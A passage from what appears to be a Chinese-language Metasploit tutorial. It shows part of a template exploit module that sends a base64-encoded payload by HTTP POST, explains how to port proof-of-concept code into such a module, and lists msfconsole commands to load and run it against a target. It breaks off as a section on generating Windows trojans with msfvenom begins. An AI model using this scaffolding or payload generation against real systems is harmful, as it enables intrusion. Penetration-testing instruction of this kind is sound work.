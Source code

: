 ```ruby

    Exploit::CheckCode::Safe
  end

  def exploit
    # 核心漏洞利用代码
    print_status('开始漏洞利用')

    payload_data = Rex::Text.encode_base64(payload.raw)

    res = send_request_cgi({
      'method' => 'POST',
      'uri'    => "#{datastore['TARGETURI']}/action",
      'vars_post' => {
        'input' => payload_data
      }
    })

    if res && res.code == 201
      print_good('利用成功！返回：' + res.body)
    else
      fail_with(Failure::Unknown, "漏洞利用失败！返回：" + res.body)
    end
  end
end
```

##### 模块关键部分分析：
1. **`check` 函数**：用来检查目标是否存在漏洞。
2. **`exploit` 函数**：这是模块的核心部分，你需要将 POC 的代码逻辑移植到这里。
3. **参数注册**：如端口号（RPORT）或路径（TARGETURI）。

#### 步骤 5. 测试模块
1. 将模块保存到 Metasploit 的自定义模块路径（例如 `~/.msf4/modules/exploits/`）。
2. 在 Metasploit 控制台中运行以下命令：
   ```bash
   msfconsole
   use exploit/模块路径
   show options
   set RHOST <目标地址>
   set RPORT <目标端口>
   run
   ```
3. 测试模块是否正常工作。如果模块失败，请分析日志输出并进行调试。


# 4、MSF生成Payload

MSF的`msfvenom`工具用于生成各种Payload，例如木马程序。

* 生成Windows木马：
  